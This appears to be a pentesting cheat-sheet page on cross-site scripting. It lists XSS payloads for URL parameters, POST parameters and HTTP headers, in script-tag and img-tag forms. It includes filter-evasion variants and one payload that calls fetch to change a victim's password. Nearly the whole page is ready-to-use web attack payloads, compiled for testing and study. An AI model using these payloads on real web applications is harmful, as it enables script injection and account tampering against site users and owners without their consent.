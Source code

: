 ```yaml
---
title: XSS (Cross-Site Scripting)
description: XSS enables attackers to injection client-side scripts into web applications.
tags:
    - XSS
    - Web
refs:
    - https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked
    - https://portswigger.net/research/xss-without-parentheses-and-semi-colons
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md
    - https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
date: 2023-07-22
draft: false
---
```


<div data-pagefind-ignore>

## Payloads

We can insert them into **URL params**,  **POST params** or **HTTP headers**.  
Additionary, we can also find CVE related XSS [here](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=xss).

### Script Tags

```txt
<script>alert(1)</script>
"><script>alert(1)</script>
<script>alert(1)</script>
"><script>alert(1)</script>
'></script><script>alert(1)</script>
<script>onerror=alert;throw 123</script>
<script>{onerror=alert}throw 123</script>
<script>throw onerror=alert,'hello',123,'world'</script>
<script>fetch('/profile?new_password=password');</script>
</textarea><script>alert(1)</script>

%3Cscript%3Ealert%281%29%3C%2Fscript%3E

';alert(1);'
```

### Img Tags

```txt
" src=1 onerror=alert(1)>
<><img src=1 onerror=alert(1)>
"><img src=1 onerror=alert(1)>
"></span><img src=1 onerror=alert(1)>

<img src="javascript:alert(1)">
<img src="jav ascript:alert(1)">
<img src="jav&#x09;ascript:alert(1)">
<img src="jav&#x0A;ascript:alert(1)">

<img dynsrc="javascript:alert(1)">
<img lowsrc="javascript:alert(1)">
```
